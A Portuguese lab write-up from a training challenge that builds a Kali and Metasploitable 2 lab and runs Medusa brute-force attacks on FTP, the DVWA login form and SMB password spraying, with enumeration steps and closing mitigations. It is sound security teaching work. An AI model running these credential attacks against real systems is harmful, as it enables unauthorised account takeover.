# 🔐 Ataque Brute Force com Medusa e Kali Linux

> ⚠️ **Aviso Legal:** Este projeto tem fins **exclusivamente educacionais**. Todos os testes foram realizados em ambientes controlados e isolados (VMs locais sem acesso à internet). Nunca execute ataques em sistemas sem autorização explícita. O uso indevido dessas técnicas é crime previsto na **Lei nº 12.737/2012** (Lei Carolina Dieckmann).

---

## 📋 Sumário

- [Conceitos: Tipos de Ataque](#-conceitos-tipos-de-ataque)
- [Ferramentas do Kali Linux](#-ferramentas-do-kali-linux)
- [Configurando o Ambiente](#-configurando-o-ambiente)
  - [VirtualBox](#1-virtualbox)
  - [Kali Linux](#2-kali-linux)
  - [Metasploitable 2](#3-metasploitable-2)
  - [Rede Host-Only](#4-configurando-a-rede-host-only)
- [Cenário 1 — Força Bruta em FTP](#-cenário-1--força-bruta-em-ftp)
- [Cenário 2 — Formulário Web DVWA](#-cenário-2--formulário-web-dvwa)
- [Cenário 3 — Password Spraying em SMB](#-cenário-3--password-spraying-em-smb)
- [Medidas de Mitigação](#-medidas-de-mitigação)
- [Referências](#-referências)

---

## 🧠 Conceitos: Tipos de Ataque

Antes de executar qualquer teste, é fundamental entender os diferentes tipos de ataque de força bruta existentes:

| Tipo | Descrição | Exemplo |
|---|---|---|
| **Dicionário** | Usa lista pronta de senhas comuns | `123456`, `admin`, `senha123` |
| **Força Bruta Pura** | Testa todas as combinações possíveis | `0000`, `0001`, `a1`, `a2`... |
| **Password Spraying** | Uma senha em muitos usuários | senha `123456` em `joao@`, `maria@`, `pedro@` |
| **Credential Stuffing** | Login/senha vazados de outros sites | Senha do jogo tentada no Gmail |
| **Ataque Híbrido** | Dicionário + pequenas variações | `gabriel` → `Gabriel123`, `G@briel` |
| **Mangling Rules** | Modificações automáticas em palavras | `casa` → `Casa`, `casa123`, `C@s@` |

---

## 🛠 Ferramentas do Kali Linux

O **Medusa** é a ferramenta principal deste projeto. Abaixo, um comparativo com outras ferramentas disponíveis no Kali:

| Ferramenta | Uso Principal |
|---|---|
| **Medusa** | Força bruta paralela e modular (FTP, HTTP, SMB, SSH...) |
| **Hydra** | Testa logins automaticamente em vários serviços |
| **Ncrack** | Testes rápidos de autenticação em redes |
| **John the Ripper** | Quebra senhas a partir de hashes |
| **WPScan** | Auditoria de segurança em sites WordPress |
| **Patator** | Força bruta avançada com múltiplos protocolos |

---

## ⚙️ Configurando o Ambiente

### 1. VirtualBox

Acesse [virtualbox.org](https://www.virtualbox.org/) e baixe o instalador para o seu sistema operacional:


Após o download, execute o instalador e siga: **Next → Next → Finish**.

---

### 2. Kali Linux

Acesse [kali.org/get-kali](https://www.kali.org/get-kali/#kali-platforms) e escolha a opção **Virtual Machines** (recomendado para uso com VirtualBox):



**Criando a VM do Kali no VirtualBox:**

Na tela principal do VirtualBox, clique em **Novo**, defina o nome, escolha o tipo Linux e adicione a ISO do Kali.



Configure os recursos de hardware: **2 GB de RAM** e **2 CPUs** são suficientes para os testes.



---

### 3. Metasploitable 2

O **Metasploitable 2** é uma máquina virtual Linux criada propositalmente com falhas de segurança para estudos de cibersegurança.

Baixe em: [sourceforge.net/projects/metasploitable](https://sourceforge.net/projects/metasploitable/)



Ao criar a VM do Metasploitable no VirtualBox, vá em **Disco Rígido** e escolha **"Utilizar um disco rígido virtual existente"**, selecionando o arquivo `.vmdk` baixado:



> 💡 **Dica:** Crie um **Snapshot** antes de iniciar os testes: `Máquina → Criar Snapshot`. Assim você tem um ponto de restauração.

---

### 4. Configurando a Rede Host-Only

Para que as duas VMs se vejam sem acesso à internet, configure ambas com **Placa de Rede Exclusiva do Hospedeiro (Host-Only)**:

`Configurações → Rede → Conectado a: Placa de Rede Exclusiva do Hospedeiro → OK`

Faça isso em **ambas as máquinas** (Kali Linux e Metasploitable 2).

**Verificando a conectividade e serviços expostos:**

No terminal do Kali Linux, primeiro descubra o IP do Metasploitable (login: `msfadmin` / senha: `msfadmin`) e confirme a comunicação:

```bash
ping -c 3 192.168.56.102
```

Em seguida, faça um scan de portas para confirmar os serviços disponíveis:

```bash
nmap -sV -p 21,22,80,445,139 192.168.56.102
```



Resultado esperado: FTP (21), SSH (22), HTTP (80), SMB (139/445) todos abertos.

---

## 🎯 Cenário 1 — Força Bruta em FTP

### Criando as Wordlists

No terminal do Kali Linux, crie os arquivos de usuários e senhas:

```bash
# Lista de usuários
echo -e "user\nmsfadmin\nadmin\nroot" > users.txt

# Lista de senhas
echo -e "123456\npassword\nqwerty\nmsfadmin" > pass.txt
```



### Executando o Ataque com Medusa

```bash
medusa -h 192.168.56.102 -U users.txt -P pass.txt -M ftp -t 6
```

**Parâmetros:**
- `-h` → host alvo
- `-U` → arquivo com lista de usuários
- `-P` → arquivo com lista de senhas
- `-M ftp` → módulo FTP
- `-t 6` → 6 threads paralelas

### Resultado



O Medusa encontrou as credenciais: **User: msfadmin / Password: msfadmin** ✅

### Validando o Acesso

```bash
ftp 192.168.56.102
# Login: msfadmin
# Password: msfadmin
```

---

## 🌐 Cenário 2 — Formulário Web DVWA

### Acessando o DVWA

No navegador do Kali Linux, acesse:

```
http://192.168.56.102/dvwa/login.php
```



### Identificando os Parâmetros do Formulário

Abra o **DevTools** do navegador (F12) → aba **Network** → tente um login falso para capturar a requisição POST:



Observamos que os parâmetros são: `username`, `password` e `Login`, e o texto de falha é `Login failed`.

### Criando as Wordlists

```bash
echo -e "user\nmsfadmin\nadmin\nroot" > users.txt
echo -e "123456\npassword\nqwerty\nmsfadmin" > pass.txt
```

### Executando o Ataque

```bash
medusa -h 192.168.56.102 \
  -U users.txt -P pass.txt \
  -M http \
  -m "FORM:/dvwa/login.php" \
  -m "FORM:username=^USER^&password=^PASS^&Login=Login" \
  -m "FAIL=Login failed" \
  -t 6
```

### Resultado — Acesso Concedido

Com as credenciais encontradas (`admin` / `password`), o acesso ao DVWA é confirmado:



---

## 🏢 Cenário 3 — Password Spraying em SMB

Este cenário simula um **ambiente corporativo mal configurado**, onde testamos uma senha por vez em múltiplas contas para evitar bloqueios.

### Enumerando Usuários com enum4linux

```bash
enum4linux -a 192.168.56.102 | tee enum4_output.txt
```



O `enum4linux` revela os usuários do sistema: `user`, `msfadmin`, `service`, entre outros.

### Criando as Wordlists para Spraying

```bash
# Usuários descobertos
echo -e "user\nmsfadmin\nservice" > smb_users.txt

# Senhas para spraying (poucas, para não bloquear contas)
echo -e "password\n123456\nWelcome123\nmsfadmin" > senhas_spray.txt
```

### Executando o Ataque

```bash
medusa -h 192.168.56.102 \
  -U smb_users.txt \
  -P senhas_spray.txt \
  -M smbnt \
  -t 2 -T 50
```

> ⚠️ `-t 2` usa poucas threads intencionalmente — no spraying, a lentidão evita bloqueios de conta.

### Resultado



Credencial encontrada: **User: msfadmin / Password: msfadmin** ✅

### Validando com smbclient

```bash
smbclient -L //192.168.56.102 -U msfadmin
# Password: msfadmin
```



---

## 🛡 Medidas de Mitigação

| Cenário | Ataque | Contramedida |
|---|---|---|
| FTP | Dicionário | Desabilitar FTP; usar SFTP; Fail2ban |
| Web (DVWA) | Força bruta em formulário | Rate limiting; CAPTCHA; MFA |
| SMB | Password Spraying | Política de senha forte; segmentação de rede |

### Implementando Fail2ban (FTP/SSH)

```bash
sudo apt install fail2ban -y

sudo nano /etc/fail2ban/jail.local
```

```ini
[vsftpd]
enabled  = true
port     = ftp
maxretry = 5
bantime  = 3600
```

### Política de Senhas Fortes

```bash
sudo nano /etc/security/pwquality.conf

# Configuração recomendada:
minlen = 12
dcredit = -1   # mínimo 1 dígito
ucredit = -1   # mínimo 1 maiúscula
ocredit = -1   # mínimo 1 caractere especial
```

### Desabilitar Serviços Desnecessários

```bash
# Verificar o que está exposto
sudo systemctl list-units --type=service --state=running

# Desabilitar FTP se não for necessário
sudo systemctl disable vsftpd && sudo systemctl stop vsftpd
```

---

## 📚 Referências

- [Medusa — Foofus Networks](http://foofus.net/goons/jmk/medusa/medusa.html)
- [Metasploitable 2 — Rapid7](https://docs.rapid7.com/metasploit/metasploitable-2/)
- [DVWA — Damn Vulnerable Web Application](https://dvwa.co.uk/)
- [Kali Linux Tools — Medusa](https://www.kali.org/tools/medusa/)
- [OWASP — Brute Force Attack](https://owasp.org/www-community/attacks/Brute_force_attack)
- [Fail2ban Documentation](https://www.fail2ban.org/wiki/index.php/Main_Page)
- Lei nº 12.737/2012 — [Lei Carolina Dieckmann](https://www.planalto.gov.br/ccivil_03/_ato2011-2014/2012/lei/l12737.htm)

---

<div align="center">

**Desenvolvido como parte do desafio prático da DIO**

*"Conhecer o ataque é o primeiro passo para construir a defesa."*

</div>
